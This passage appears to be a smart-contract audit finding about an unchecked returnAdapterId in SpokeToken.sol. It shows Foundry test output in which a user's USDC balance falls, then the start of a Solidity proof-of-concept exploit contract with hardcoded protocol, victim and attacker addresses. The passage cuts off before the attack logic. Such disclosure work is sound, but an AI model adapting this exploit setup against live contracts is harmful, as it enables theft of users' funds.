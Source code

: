 The result is
```
>>> Initial conditions
  --- USDC balance of [0xf745b439965c66425958159e91e7e04224fed29d]:     2748701800.0 ---
  
  --- USDC balance of [0xf745b439965c66425958159e91e7e04224fed29d]:     2747701800.0 ---
  
  ~~~ Profit for [0xf745b439965c66425958159e91e7e04224fed29d]
  -----------------------------------------------------------------------------------------
               Token address                    |       Symbol  |       Profit
  -----------------------------------------------------------------------------------------
  0x5425890298aed601595a70AB815c96711a31Bc65    |       USDC    |       -1000000.0
  

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 914.80ms

```

## Recommendation
Need to check returnAdapterId in SpokeToken.sol


        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/PoC.sol";
import "../interfaces/ISpokeToken.sol";
import "../interfaces/ISpokeCommon.sol";
import "../interfaces/IHubPool.sol";
import "../interfaces/IHub.sol";
import "../interfaces/IBridgeRouter.sol";
import "../interfaces/ILoanManager.sol";
import "../Messages.sol";
import "./AttackContract.sol";

contract InvalidReturnAdapterId is PoC {
    ISpokeToken public spokeCircleToken = ISpokeToken(0x89df7db4af48Ec7A84DE09F755ade9AF1940420b);
    ISpokeToken public spokeGasToken = ISpokeToken(0xBFf8b4e5f92eDD0A5f72b4b0E23cCa2Cc476ce2a);
    ISpokeCommon public spokeCommon = ISpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00);
    IHubPool public hubCirclePool = IHubPool(0x1968237f3a7D256D08BcAb212D7ae28fEda72c34);
    IHub public hub = IHub(0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140);
    ILoanManager public loanManager = ILoanManager(0x2cAa1315bd676FbecABFC3195000c642f503f1C9);
    IBridgeRouter public bridgeRouter = IBridgeRouter(0xa9491a1f4f058832e5742b76eE3f1F1fD7bb6837);
    IERC20 public constant USDC = IERC20(0x5425890298aed601595a70AB815c96711a31Bc65);

    address public user = 0xF745b439965c66425958159e91E7e04224Fed29D;
    address public attacker = 0x7039BC43b78A7135F82567C1f973BfAa30F5b8Ab;

    IERC20[] private _tokens;

    AttackContract private attackContract;

    uint256 private ONE_USDC = 10 ** 6;

    bytes32 private refAccountId = bytes32("");
    bytes32 private userAccountId = bytes32("user");
    bytes32 private attackerAccountId = bytes32("attacker");
```